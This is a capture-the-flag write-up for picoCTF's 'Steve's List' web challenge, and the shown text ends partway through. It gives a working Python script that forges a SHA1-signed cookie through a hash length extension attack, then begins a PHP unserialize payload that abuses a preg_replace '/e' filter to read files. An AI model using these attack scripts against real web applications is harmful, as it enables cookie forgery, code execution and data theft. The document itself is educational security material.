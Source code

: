 # Steve's List

What a fun challenge! We have a pwned website and we have to figure out how to pwn it as well.

## Hash Length Extension
Looking at the `steves_list_backup.zip` we see the following files:
```
$ ls
cookies.php  includes  index.php  posts  root_data.php  Steve.png  templates
```

The first file to note is `cookies.php`:
```php
  2   if (isset($_COOKIE['custom_settings'])) {
        ...
 16     }
 17   } else {
 18     $custom_settings = array(0 => true);
 19     setcookie('custom_settings', urlencode(serialize(true)), time() + 86    400 * 30, "/");
 20     setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)    ), time() + 86400 * 30, "/");
 21   }

```
Lines 19 and 20 show that if the cookie *custom_settings* isn't set aka if it is the user's first visit to the website, then two cookies are set: *custom_settings* and *custom_settings_hash*.

This can be verified in Google Chrome via the developer console (`Right Click -> Inspect Element -> 'Console'`)
```
> document.cookie
"custom_settings=b%253A1%253B; custom_settings_hash=2141b332222df459fd212440824a35e63d37ef69"
```

Line 5 of the same file is of key importance to us.
```php
  4     $custom_settings = urldecode($_COOKIE['custom_settings']);
  5     $hash = sha1(AUTH_SECRET . $custom_settings);
  6     if ($hash !== $_COOKIE['custom_settings_hash']) {
  7       die("Why would you hack Section Chief Steve's site? :(");
  8     }
```

Ah! So we are taking the cookie value in _custom_settings_, prepending the _AUTH_SECRET_ and performing a sha1 hash. This screams to us, **LENGTH EXTENSION ATTACK**. For more information, [click here](http://en.wikipedia.org/wiki/Length_extension_attack).

Essentially, if we know the input data, the resulting hash, and the hash type, we can append malicious code to the initial data and receive a hash that will pass the given test. To do the hash calculation, we will utilize [hlextend](https://github.com/stephenbradshaw/hlextend).

To prove this, let's test hlextend.
```python
import hlextend
import requests
import subprocess

def encode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://steveslist.picoctf.com'
original_hash = '2141b332222df459fd212440824a35e63d37ef69'
original_data = 'b:1;'
appended_data = 'pwned'
key_length = 8

# Get our new hash for our new data
sha = hlextend.new('sha1')
cookie = sha.extend(appended_data, original_data, key_length, original_hash)
cookie_hash = sha.hexdigest()

# Send a request with our new cookie to verify our method works
output = encode(cookie)
cookies = {'custom_settings_hash': cookie_hash,
           'custom_settings': output}
print requests.get(url, cookies=cookies).text
```
In short, we appended **pwned** to the original data of **b:1;**, ran the new data through *hlextend.py* to receive our new hash, then requested the web page with our new cookie.
```html
$ python hlextend_test.py
<html>
  <head>
    <title>Steve's List</title>
    <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" />
    <link rel="stylesheet" href="steves_list.css" />
    <script src="javascript" src="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/js/bootstrap.min.js"></script>
  ...
  
  ...
<!-- POST 0wn3d by D43d4lu5 C0rp: OWNED OWNED OWNED OWNED OWNED OWNED SECTION CHIEF STEVE IS THE WORST<br><img src='./daedalus.png'><br><script>alert(1);</script><marquee>rekt</marquee><br><br><blink>we changed your secret</blink><br><br><marquee><blink>bet you'll never get control of this site back</blink></marquee><br><blink>look at this top quality tag we added</blink> --><!-- POST I'm Section Chief Steve: I'm the best.<br>The very best.<br><img src='./Steve.png'> -->
```
Because we see the HTML for the home page, we know that our cookie creation worked. Winning!

Now, what can we do with this new cookie creation?

## Unserialize object creation

```php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
```



